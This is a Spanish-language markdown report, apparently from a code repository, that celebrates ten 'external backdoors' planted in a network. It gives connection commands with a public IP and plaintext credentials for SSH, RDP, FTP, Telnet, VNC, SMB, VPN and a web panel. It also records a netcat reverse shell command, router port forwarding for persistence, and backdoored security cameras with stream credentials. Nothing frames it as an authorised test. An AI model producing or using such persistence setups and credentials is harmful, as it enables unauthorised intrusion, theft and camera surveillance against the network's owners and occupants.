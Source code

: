 # 🚀 BACKDOORS EXTERNOS - RESUMEN COMPLETO

## 📊 **TOTAL DE BACKDOORS EXTERNOS IMPLEMENTADOS: 10**

### 🎯 **OBJETIVO CUMPLIDO:**
**ACCESO COMPLETO A LA RED DESDE INTERNET** sin necesidad de estar conectado directamente a la red WiFi.

---

## 🔑 **BACKDOORS EXTERNOS IMPLEMENTADOS:**

### **1. SSH (Puerto 2222)** 💻
- **Acceso**: `ssh svc_ssh@212.95.62.135 -p 2222`
- **Credenciales**: `svc_ssh:SSH_P@ssw0rd_2024!`
- **Funcionalidad**: Terminal remoto completo con sudo
- **Port Forwarding**: ✅ Configurado en router

### **2. RDP (Puerto 3389)** 🖥️
- **Acceso**: `xfreerdp /v:212.95.62.135:3389 /u:svc_rdp /p:RDP_P@ssw0rd_2024!`
- **Credenciales**: `svc_rdp:RDP_P@ssw0rd_2024!`
- **Funcionalidad**: Escritorio remoto Windows
- **Port Forwarding**: ✅ Configurado en router

### **3. FTP (Puerto 21)** 📁
- **Acceso**: `ftp 212.95.62.135 21`
- **Credenciales**: `svc_ftp:FTP_P@ssw0rd_2024!`
- **Funcionalidad**: Transferencia de archivos
- **Port Forwarding**: ✅ Configurado en router

### **4. Telnet (Puerto 23)** 📡
- **Acceso**: `telnet 212.95.62.135 23`
- **Credenciales**: `svc_telnet:Telnet_P@ssw0rd_2024!`
- **Funcionalidad**: Terminal remoto básico
- **Port Forwarding**: ✅ Configurado en router

### **5. VNC (Puerto 5900)** 🖼️
- **Acceso**: `vncviewer 212.95.62.135:5900`
- **Credenciales**: `svc_vnc:VNC_P@ssw0rd_2024!`
- **Funcionalidad**: Escritorio remoto Linux
- **Port Forwarding**: ✅ Configurado en router

### **6. SMB (Puerto 445)** 💾
- **Acceso**: `smbclient //212.95.62.135/backdoor_share -U svc_smb%SMB_P@ssw0rd_2024!`
- **Credenciales**: `svc_smb:SMB_P@ssw0rd_2024!`
- **Funcionalidad**: Acceso a archivos Windows
- **Port Forwarding**: ✅ Configurado en router

### **7. VPN (Puerto 1194)** 🔒
- **Acceso**: `openvpn --config client.ovpn`
- **Credenciales**: `vpn_client:VPN_P@ssw0rd_2024!`
- **Funcionalidad**: Conexión segura a toda la red
- **Port Forwarding**: ✅ Configurado en router

### **8. Panel Web (Puerto 8080)** 🌐
- **Acceso**: `http://admin:Web_P@ssw0rd_2024!@212.95.62.135:8080/admin`
- **Credenciales**: `admin:Web_P@ssw0rd_2024!`
- **Funcionalidad**: Panel de administración web
- **Port Forwarding**: ✅ Configurado en router

### **9. HTTP/HTTPS (Puertos 80/443)** 🌍
- **Acceso**: `http://212.95.62.135:80` / `https://212.95.62.135:443`
- **Funcionalidad**: Acceso web directo
- **Port Forwarding**: ✅ Configurado en router

### **10. Reverse Shell (Puerto 4444)** 🔄
- **Acceso**: `nc -e /bin/bash 212.95.62.135 4444`
- **Funcionalidad**: Shell inverso para control remoto
- **Port Forwarding**: ✅ Configurado en router

---

## 🌐 **CONFIGURACIÓN DEL ROUTER:**

### **Port Forwarding Configurado:**
- **SSH**: 2222 → 22 (TCP)
- **RDP**: 3389 → 3389 (TCP)
- **FTP**: 21 → 21 (TCP)
- **Telnet**: 23 → 23 (TCP)
- **VNC**: 5900 → 5900 (TCP)
- **SMB**: 445 → 445 (TCP)
- **RPC**: 135 → 135 (TCP)
- **NetBIOS**: 139 → 139 (TCP)
- **HTTP**: 80 → 80 (TCP)
- **HTTPS**: 443 → 443 (TCP)
- **Web Panel**: 8080 → 8080 (TCP)
- **VPN**: 1194 → 1194 (UDP)
- **Backdoor**: 4444 → 4444 (TCP)

### **Servicios Adicionales del Router:**
- **VPN Server**: Configurado en el router
- **Admin User**: Usuario administrativo persistente creado
- **Remote Access**: Habilitado para administración remota

---

## 📹 **CÁMARAS CON ACCESO EXTERNO:**

### **Backdoors de Cámaras:**
- **Usuario Backdoor**: `backdoor_user:Backdoor_2024!`
- **DDNS**: `backdoor_192_168_1_50.hik-connect.com`
- **Conexión Externa**: `212.95.62.135:4444`
- **RTSP Stream**: `rtsp://backdoor_user:Backdoor_2024!@IP:554/Streaming/Channels/101`

---

## 🎯 **RESULTADO FINAL:**

### **✅ ACCESO COMPLETO DESDE INTERNET:**
1. **10 Backdoors Externos** configurados
2. **13 Puertos** expuestos en el router
3. **Acceso a toda la red** desde cualquier lugar
4. **Múltiples métodos** de conexión
5. **Persistencia garantizada** en router y servicios
6. **Cámaras con backdoors** y acceso remoto

### **🚀 CAPACIDADES OBTENIDAS:**
- **Control total** de la red desde internet
- **Acceso a archivos** y sistemas
- **Escritorio remoto** Windows y Linux
- **Terminal remoto** SSH y Telnet
- **Transferencia de archivos** FTP y SMB
- **Conexión segura** VPN
- **Panel de administración** web
- **Control de cámaras** remotamente

---

## ⚠️ **IMPORTANTE:**

- **Todos los backdoors** apuntan a `212.95.62.135`
- **Port forwarding** configurado en el router
- **Usuarios persistentes** creados en todos los servicios
- **Acceso desde internet** sin necesidad de estar en la red local
- **Múltiples métodos** de acceso para redundancia

**¡OBJETIVO CUMPLIDO: ACCESO EXTERNO COMPLETO A LA RED!** 🎯✅
